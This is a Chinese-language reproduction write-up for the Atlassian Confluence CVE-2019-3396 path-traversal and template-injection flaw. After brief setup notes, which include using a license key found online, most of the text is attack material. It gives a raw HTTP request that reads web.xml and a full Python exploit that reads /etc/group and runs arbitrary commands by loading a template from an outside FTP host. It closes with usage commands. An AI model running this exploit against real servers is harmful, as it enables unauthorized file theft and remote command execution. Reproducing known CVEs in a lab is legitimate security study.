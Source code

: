 # Atlassian Confluence 路径穿越与命令执行漏洞

> 漏洞说明

Atlassian Confluence是企业广泛使用的wiki系统，其6.14.2版本前存在一处未授权的目录穿越漏洞，通过该漏洞，攻击者可以读取任意文件，或利用Velocity模板注入执行任意命令。



> 前提条件

版本：Atlassian Confluence < 6.14.2



> 利用工具

[exp](https://github.com/Yt1g3r/CVE-2019-3396_EXP/blob/master/RCE_exp.py)



> 漏洞复现

环境启动后，访问http://192.168.40.77/:8090进入安装引导，选择“Trial installation”，之后会要求填写license key。官网未找到申请试用途径，网上找个key直接用

![image-20221219121339034](../img/Atlassian Confluence_CVE-2019-3396/image-20221219121339034.png)

配置数据库

![image-20221219121452483](../img/Atlassian Confluence_CVE-2019-3396/image-20221219121452483.png)

后续其他配置看着选，成功搭建环境

![image-20221219123203782](../img/Atlassian Confluence_CVE-2019-3396/image-20221219123203782.png)

但key过期还是无法试用

![image-20221219123952722](../img/Atlassian Confluence_CVE-2019-3396/image-20221219123952722.png)

官网也没有购买链接

![image-20221219123910380](../img/Atlassian Confluence_CVE-2019-3396/image-20221219123910380.png)

读取文件web.xml,POC如下

```http
POST /rest/tinymce/1/macro/preview HTTP/1.1

Host: xxx.xxx.xxx:8090

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:84.0) Gecko/20100101 Firefox/84.0

Accept: text/plain, */*; q=0.01

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

Accept-Encoding: gzip, deflate

Content-Type: application/json; charset=utf-8

Content-Length: 168

Origin: http://xxx.xxx.xxx.xxx:8090

Connection: close

Referer: http://xxx.xxx.xxx.xxx:8090/pages/resumedraft.action?draftId=65587&draftShareId=3aae85b8-030c-44bb-b8f4-d33a1771591c

{"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"../web.xml"}}}

```



命令执行EXP

```python
# -*- coding: utf-8 -*-
import re
import sys
import requests
import ssl
try:
    _create_unverified_https_context = ssl._create_unverified_context
except AttributeError:
    pass
else:
    ssl._create_default_https_context = _create_unverified_https_context

def _read(url):
    result = {}
    # filename = "../web.xml"
    filename = 'file:////etc/group'

    paylaod = url + "/rest/tinymce/1/macro/preview"
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0",
        "Referer": url + "/pages/resumedraft.action?draftId=12345&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&",
        "Content-Type": "application/json; charset=utf-8"
    }
    data = '{"contentId":"12345","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc5","width":"1000","height":"1000","_template":"%s"}}}' % filename
    r = requests.post(paylaod, data=data, headers=headers)
    # print r.content
    if r.status_code == 200 and "wiki-content" in r.text:
        m = re.findall('.*wiki-content">\n(.*)\n            </div>\n', r.text, re.S)

    return m[0]



def _exec(url,cmd):
    result = {}
    filename = "ftp://1.1.1.1/cmd.vm"

    paylaod = url + "/rest/tinymce/1/macro/preview"
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0",
        "Referer": url + "/pages/resumedraft.action?draftId=12345&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&",
        "Content-Type": "application/json; charset=utf-8"
    }
    data = '{"contentId":"12345","macro":{"name":"widget","body":"","params":{"url":"http://www.dailymotion.com/video/xcpa64","width":"300","height":"200","_template":"%s","cmd":"%s"}}}' % (filename,cmd)
    r = requests.post(paylaod, data=data, headers=headers)
    # print r.content
    if r.status_code == 200 and "wiki-content" in r.text:
        m = re.findall('.*wiki-content">\n(.*)\n            </div>\n', r.text, re.S)

    return m[0]



if __name__ == '__main__':

    if len(sys.argv) != 3:
        print 'Usage: RCE_exp.py http[s]://target.com:8080/ "ls -al"'
        sys.exit(0)
    url = sys.argv[1]
    cmd = sys.argv[2]
    print _exec(url,cmd)
    
```

用法

```shell
python -m pyftpdlib -p 21
python RCE_exp.py http://xxx.xx.xx.xx:8090 "id"
```



